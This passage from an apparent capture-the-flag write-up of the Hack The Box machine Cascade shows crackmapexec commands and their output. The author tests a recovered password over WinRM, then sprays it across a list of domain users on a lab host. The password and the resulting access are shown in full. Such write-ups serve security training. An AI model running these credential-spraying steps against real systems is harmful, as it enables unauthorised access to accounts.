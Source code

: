 Based on the line in the SQLite DB, this password, `w3lc0meFr31nd`,
likely pairs with the account arksvc.

### WinRM

`crackmapexec` shows that not only does the password work, but will
provide a WinRM shell:



    root@kali# crackmapexec winrm 10.10.10.182 -u arksvc -p w3lc0meFr31nd
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)



Had I not know the account that was associated with this password, I
could have used `crackmapexec` with a list of users:



    root@kali# crackmapexec winrm 10.10.10.182 -u users -p w3lc0meFr31nd --continue-on-success
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\CascGuest:w3lc0meFr31nd "Failed to authenticate the user CascGuest with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\arksvc:w3lc0meFr31nd (Pwn3d!)
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.smith:w3lc0meFr31nd "Failed to authenticate the user s.smith with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:w3lc0meFr31nd "Failed to authenticate the user r.thompson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\util:w3lc0meFr31nd "Failed to authenticate the user util with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.wakefield:w3lc0meFr31nd "Failed to authenticate the user j.wakefield with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\s.hickson:w3lc0meFr31nd "Failed to authenticate the user s.hickson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.goodhand:w3lc0meFr31nd "Failed to authenticate the user j.goodhand with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\a.turnbull:w3lc0meFr31nd "Failed to authenticate the user a.turnbull with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\e.crowe:w3lc0meFr31nd "Failed to authenticate the user e.crowe with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\b.hanson:w3lc0meFr31nd "Failed to authenticate the user b.hanson with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\d.burman:w3lc0meFr31nd "Failed to authenticate the user d.burman with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\BackupSvc:w3lc0meFr31nd "Failed to authenticate the user BackupSvc with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\j.allen:w3lc0meFr31nd "Failed to authenticate the user j.allen with ntlm"
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\i.croft:w3lc0meFr31nd "Failed to authenticate the user i.croft with ntlm"



Anyway, I can get a shell over Evil-WinRM as arksvc:
